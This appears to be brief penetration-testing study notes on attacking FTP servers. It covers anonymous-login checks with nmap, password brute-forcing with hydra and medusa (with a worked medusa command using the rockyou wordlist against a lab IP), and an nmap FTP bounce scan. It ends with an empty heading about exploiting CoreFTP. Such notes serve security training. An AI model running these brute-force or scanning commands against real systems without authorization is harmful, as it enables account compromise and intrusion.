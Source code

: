 nmap script can be used (-sC does this automatically)

```
ftp-anon
```
Source:https://nmap.org/nsedoc/scripts/ftp-anon.html

Login Bruteforcing Tools
	hydra
		https://github.com/vanhauser-thc/thc-hydra
	medusa
		https://github.com/jmk-foofus/medusa

\
Medusa example
```shell-session
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```


Scanning internal ftp servers using ftp bounce attack (nmap -b)
```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```


Exploiting COREFTP with improperly handled put request

Changed again.